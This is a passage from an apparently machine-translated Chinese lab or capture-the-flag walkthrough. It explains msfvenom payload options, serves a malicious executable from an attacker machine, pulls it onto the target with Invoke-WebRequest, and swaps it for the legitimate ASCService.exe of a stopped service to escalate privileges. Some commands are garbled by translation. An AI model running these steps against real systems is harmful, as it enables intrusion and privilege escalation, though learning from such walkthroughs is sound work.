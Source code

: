 我们刚刚做了什么？嗯…让我们仔细看看。

> ***-p*** 指定有效载荷(***--list =有效载荷*** 查看全部)
> 
> ***lhost*** —本地主机的 IP 地址
> 
> ***lport*** —本地主机将监听的端口号
> 
> ***-e*** 决定防火墙规避的编码器(***--list =编码器*** )
> 
> ***-f*** 是可执行文件的文件类型

下一步是将我们的文件上传到目标服务器，并更改合法可执行文件的内容。是时候学习一些 PowerShell 命令了！

**首先是**，我们需要上传我们的*。两个命令将为我们做这件事。*

> *your-local-machine**#*python-m simple http server*8888***
> 
> *目标-机器-PS**#*Invoke-WebRequest-Uri*" http://x . x . x:8888 "*-Outfile*ASCService.exe***

*![](img/8ab262513f9e84496d10c681102727a6.png)*

*攻击机器上 Python 的简单 HTTP 服务器*

*![](img/8c7bb58ad353cf260bd7c90bfd9d3b71.png)*

*可执行文件成功下载到目标服务器*

***第二个**，在替换合法的 ASCService.exe 之前，必须停止 AdvancedSystemCareService9，因为它依赖于我们将要更改的可执行文件。只需在 PowerShell 中发出***Stop-Service advancedsystemcareservice 9***命令。*

*最后但同样重要的是，让我们把好的 ASCService.exe 换成坏的 ASCService.exe。*

1.  *对恶意 ASCService.exe 文件执行 ***Copy-Item*** 命令，更改合法文件。*
2.  *使用 ***Set-Location*** 命令在高级 SystemCare 目录中找到自己。*
3.  *检查全新 ASCService.exe 的长度(与我们用 Msfvenom 制作的相比)。*

*![](img/cfa018fae51c76bed14331ebcd53da7c.png)*

